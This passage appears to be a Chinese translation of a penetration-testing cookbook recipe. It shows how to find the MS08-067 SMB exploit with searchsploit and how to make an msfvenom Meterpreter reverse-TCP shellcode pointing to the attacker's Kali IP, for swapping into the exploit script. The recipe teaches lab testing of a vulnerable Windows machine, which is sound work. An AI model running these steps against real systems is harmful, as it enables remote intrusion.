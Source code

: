 有各种其他方法可以进入系统；在我们开始利用之前，确保进行适当的信息收集非常重要。有了这个，我们完成了我们的网络利用。在下一章中，我们将讨论后期利用。

# 利用 exploit-db 脚本来利用服务

在这个步骤中，我们将利用 Windows SMB 服务`ms08_067`，使用 Metasploit 框架之外的利用代码。渗透测试人员经常依赖 Metasploit 进行他们的渗透测试活动，然而，重要的是要理解这些是运行的自定义脚本，并且接受远程主机端口等动态输入。在这个步骤中，我们将看到如何调整漏洞脚本以匹配我们的目标并成功利用它。

## 准备工作

对于这个步骤，我们需要使用我们一直在测试的易受攻击的 Windows 机器，以及 Kali 机器本身提供的其余工具和脚本。

## 如何做...

1.  首先让我们看看如何使用`searchsploit`在`exploit-db`数据库中搜索`ms08-067`漏洞，使用以下命令：

```
searchsploit ms08-067

```

输出将如下截图所示：

![如何做...](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-itrs-exp-cb/img/image_04_042.jpg)

1.  我们可以看到有一个名为“Microsoft Windows - 'NetAPI32.dll' Code Execution (Python) (MS08-067)”的 Python 脚本可用。现在我们读取 Python 文件的内容，文件路径是`/usr/share/exploitdb/platforms/windows/remote/40279.py`。在桌面上复制一份相同的文件。![如何做...](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-itrs-exp-cb/img/image_04_043.jpg)

1.  在阅读文件时，发现脚本使用了一个连接到不同 IP 和端口的自定义有效载荷：![如何做...](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-itrs-exp-cb/img/image_04_044.jpg)

1.  所以我们必须首先编辑代码，并将我们想要执行的有效载荷指向我们的 IP 地址和端口。为了做到这一点，我们将使用`msfvenom`创建我们的有效载荷，以便我们可以让这个脚本执行。在 Kali 终端上输入以下命令，为 Kali IP 创建一个用于反向连接的 Python shell 代码：

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Kali IP
Address> LPORT=443 EXITFUNC=thread -b "x00x0ax0dx5cx5fx2f
x2ex40" -f python -a x86

```

输出将如下截图所示：

![如何做...](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-itrs-exp-cb/img/image_04_045.jpg)

1.  请注意，生成的有效载荷为 380 字节。复制生成的整个`buf`行，并将其粘贴到一个文件中，将单词`buf`重命名为`shellcode`，因为我们使用的脚本使用单词`shellcode`进行有效载荷传递。文本文件看起来像这样：![如何做...](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-itrs-exp-cb/img/image_04_046.jpg)

请注意我们已经删除了第一行，`buf = ""`。

现在我们需要非常小心：在 Python 脚本中提到他们的有效载荷大小为 380 字节，其余部分已填充 nops 以调整传递。我们必须确保相同，所以如果有 10 个 nops 和 380 字节的代码，我们假设有 390 字节的传递，所以如果我们生成的 shell 代码是 385 字节，我们只会添加 5 个 nops 以保持我们的缓冲区恒定。在目前的情况下，新的有效载荷大小也是 380，所以我们不需要处理 NOP。现在我们将用我们创建的新 shell 代码替换原始 shell 代码。因此，用新生成的 shell 代码替换以下突出显示的文本：

